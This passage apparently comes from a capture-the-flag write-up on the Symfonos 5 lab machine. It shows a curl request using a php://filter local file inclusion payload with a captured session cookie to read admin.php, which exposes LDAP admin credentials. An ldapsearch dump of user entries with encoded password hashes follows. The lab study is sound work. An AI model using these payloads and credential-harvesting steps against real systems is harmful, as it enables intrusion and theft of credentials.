 Then I tried to see the content of the **admin.php** file, for this we need the session cookie, we intercept the request with burpsuite and copy the cookie for then include it in our curl request, as shown below:

![](/assets/images/symfonos5/screenshot-7.png)

```bash
root@kali:~$ curl -s --cookie "PHPSESSID=l858dt8bk4coinqvjcskmutsg9" "http://192.168.179.140/home.php?url=php://filter/convert.base64-encode/resource=admin.php" | grep -oP '^\w[^<]*' | base64 -d | tee admin.php
...
$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");
...
```
In the output we can see the connection credentials for LDAP, With this We'll try to enumerate the LDAP service on port 389.

### LDAP Enumeration
With the **ldapsearch** utility we can try to enumerate for user credentials.

```bash
root@kali:~$ ldapsearch -h 192.168.179.140 -x -D "cn=admin,dc=symfonos,dc=local" -b "dc=symfonos,dc=local" -W
Enter LDAP Password: 
...
# admin, symfonos.local
dn: cn=admin,dc=symfonos,dc=local
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator
userPassword:: e1NTSEF9VVdZeHZ1aEEwYldzamZyMmJodHhRYmFwcjllU2dLVm0=

# zeus, symfonos.local
dn: uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
sn: 3
objectClass: top
objectClass: posixAccount
objectClass: inetOrgPerson
loginShell: /bin/bash
homeDirectory: /home/zeus
uidNumber: 14583102
gidNumber: 14564100
userPassword:: Y2V0a0tmNHdDdUhDOUZFVA==
mail: zeus@symfonos.local
gecos: Zeus User
```